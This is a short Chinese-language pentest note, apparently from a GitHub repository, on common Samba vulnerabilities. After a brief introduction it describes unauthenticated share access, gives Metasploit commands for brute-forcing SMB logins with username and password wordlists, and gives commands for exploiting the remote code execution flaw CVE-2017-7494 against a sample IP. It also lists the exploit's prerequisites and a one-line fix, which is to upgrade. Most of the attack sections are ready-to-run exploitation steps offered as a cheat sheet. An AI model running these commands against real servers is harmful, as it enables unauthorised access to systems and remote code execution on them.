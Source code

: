 # Samba常见漏洞

## 介绍
Samba是linux和unix系统上实现smb协议的一个免费软件，由服务器及客户端程序构成，Samba是面向Linux和Unix环境的Windows互操作性套件。它适用于在可能包括Linux、Unix、Windows、macOS及其他操作系统的异构环境下工作的那些人。Samba使用服务器消息块(SMB)协议，Windows系统使用该协议相互联系。使用Samba，你可以让Linux系统将驱动器映射到Windows系统，可以让Windows系统将驱动器映射到Linux系统，不过后者的可能性大得多。Samba让你可以在Linux系统上模拟文件和打印服务。

## 未授权访问

在samba服务未设置用户名及密码的情况下，可以直接在文件资源管理器访问samba地址

## 暴力破解

use auxiliary/scanner/smb/smb_login
auxiliary(smb_login) > show options
auxiliary(smb_login) > set RHOST samba所在的ip
auxiliary(ssmb_login) > set USER_FILE /root/username.txt
auxiliary(ssmb_login) > set PASS_FILE /root/pass.txt
auxiliary(ssmb_login) > exploit

## 远程代码执行漏洞（CVE-2017-7494 ）

CVE-2017-7494影响范围为Samba 3.5.0到4.6.4/4.5.10/4.4.14的中间版本。（该漏洞影响Samba 3.5.0之后的所有版本，在4.6.4/4.5.10/4.4.14修复了这个漏洞。）

exploit/linux/samba/is_known_pipename
set RHOST 192.168.109.134
exploit
(共享目录路径不填也没事，msf会自动爆破一些路径)

#### 条件
服务器打开了文件/打印机共享端口445 \
拥有共享文件写入权限，如：匿名可写等 \
需要知道共享目录的物理路径

#### 防御
升级版本，4.6.4/4.5.10/4.4.14


